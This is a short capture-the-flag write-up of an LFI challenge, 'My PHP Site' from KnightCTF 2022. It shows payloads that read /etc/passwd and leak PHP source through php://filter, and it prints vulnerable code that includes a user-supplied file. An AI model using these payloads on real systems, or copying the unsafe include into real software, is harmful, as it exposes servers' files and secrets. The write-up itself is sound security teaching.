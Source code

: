 <h1>My PHP Site ( KnightCTF 2022 )</h1>


Hey there its my first writeup.
So follwoing the link of challenge we find ourself in a webpage, which contains
`Hey! Welcome to my site. I made this site using php.. You are viewing tareq's home page.`
As you may already know php based websites are full of vulns.
Getting a closer look at the link, we see the parametre: `/?file=index.html`
Immediatly we think about an LFI ( Local File Inclusion ).
Let's try getting something with it:
`/?file=/etc/passwd`
YEP, we got an LFI, nothing to find on the /etc/passwd though.
Let's try getting the source code:
`/?file=index.php`
We get an `ERROR!!`
hmmm I wonder why...let's use a php filter, the base64 one for example.
`/?file=php://filter/convert.base64-encode/resource=index.php`
We got the source code:
`PD9waHAKCmlmKGlzc2V0KCRfR0VUWydmaWxlJ10pKXsKICAgIGlmICgkX0dFVFsnZmlsZSddID09ICJpbmRleC5waHAiKSB7CiAgICAgICAgZWNobyAiPGgxPkVSUk9SISE8L2gxPiI7CiAgICAgICAgZGllKCk7CiAgICB9ZWxzZXsKICAgICAgICBpbmNsdWRlICRfR0VUWydmaWxlJ107CiAgICB9Cgp9ZWxzZXsKICAgIGVjaG8gIjxoMT5Zb3UgYXJlIG1pc3NpbmcgdGhlIGZpbGUgcGFyYW1ldGVyPC9oMT4iOwoKICAgICNub3RlIDotIHNlY3JldCBsb2NhdGlvbiAvaG9tZS90YXJlcS9zM2NyRXRfZmw0OS50eHQKfQoKPz4KCjwhRE9DVFlQRSBodG1sPgo8aHRtbCBsYW5nPSJlbiI`
Let's decode it from base64.
`base64 -d index`
we get the php source code.
```<?php

if(isset($_GET['file'])){
    if ($_GET['file'] == "index.php") {
        echo "<h1>ERROR!!</h1>";
        die();
    }else{
        include $_GET['file'];
    }

}else{
    echo "<h1>You are missing the file parameter</h1>";

    #note :- secret location /home/tareq/s3crEt_fl49.txt
}

?>
```
Straight to the flag!
`/?file=s3crEt_fl49.txt`
Bingo
`KCTF{L0C4L_F1L3_1ncLu710n}`

